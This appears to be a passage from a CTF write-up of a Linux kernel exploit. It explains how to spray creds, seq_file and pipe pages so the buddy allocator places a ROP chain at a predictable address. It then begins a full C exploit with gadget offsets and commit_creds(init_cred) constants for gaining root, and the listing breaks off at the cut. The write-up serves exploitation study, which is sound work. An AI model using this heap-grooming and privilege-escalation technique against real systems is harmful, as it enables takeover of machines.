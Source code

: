 ### User controlled data on heap
We know the address of the `seq_file` cache. We can exploit the buddy allocator in order to reliably have other caches allocated in pages consecutive to the cache we have leaked: <br>

As the name suggests, the **buddy** allocator is based on "buddies", which are pairs of consecutive blocks of pages. <br>
Ignoring the migration types (we only care about unmoveable pages), buddy's freelists are divided by "orders", the number of pages that make up that block (in powers of 2). When an order exhausts its freelist it requests pages from higher orders and split them in buddies, but, as I said, the blocks are made up by consecutive pages. We successfully forced the buddy's freelist to have consecutive pages for a specific order. <br>
For convenience, order 0 (blocks of 1 page) doesn't request from the immediate higher order but from order 4, so we have 16 consecutive pages in the freelist.

Note: When the split of an higher order happens the freelist gets shuffled, so they aren't _exactly_ consecutive but still belonging to those specific 16 pages.

So the plan is:
 - spray enough objects (whatever type, we used creds for simplicity) to make the higher order request happens; <br>
 - spray `seq_file`s to force the cache to reclaim a new slab, which will be allocated from the _consecutive_ pages; <br>
 - spray pipe pages which reclaim whole order 0 pages filled with user controlled data.<br>

If we sprayed correctly, by rounding up the leaked page, we'll obtain the address of a pipe page, thus the address of our ROPchain. <br>

You can check out this blogpost by **@d3vil** to learn more about the buddy allocator's internals: https://syst3mfailure.io/linux-page-allocator/

## Win
We have the pivot, we have the ROPchain, the only thing left to do is to commit root creds and return to userland to `cat` the flag. <br>
Note: the exploit is really unreliable :/

## Full exploit
```c
#include "kpwn.c"

#define CMD_READ   							0x1337
#define CMD_WRITE   						0x1338

#define LEAK 								0xe3f060
#define ADD_RSP_POP_RBX_R12_R13_RBP_RET 	0x9e2383
#define PUSH_RDI_POP_RSP_POP_RBP_RET 		0x4b1a35
#define POP_RSP_RET							0x9da482
#define POP_RDI_RET							0x8df57d
#define INIT_CRED							0xe3bf60
#define COMMIT_CREDS						0x2a3a90
#define SWPAGS_AND_SHIT_103					0x1787

typedef struct {
  int fd;
  long val;
} req_t;

void handle(int s) {}

void win() {
    int fd = open("/dev/sdb", 0);
    char buf[0x50];
    read(fd, buf, 0x50);
    write(1, buf, 0x50);
    while(1){}
```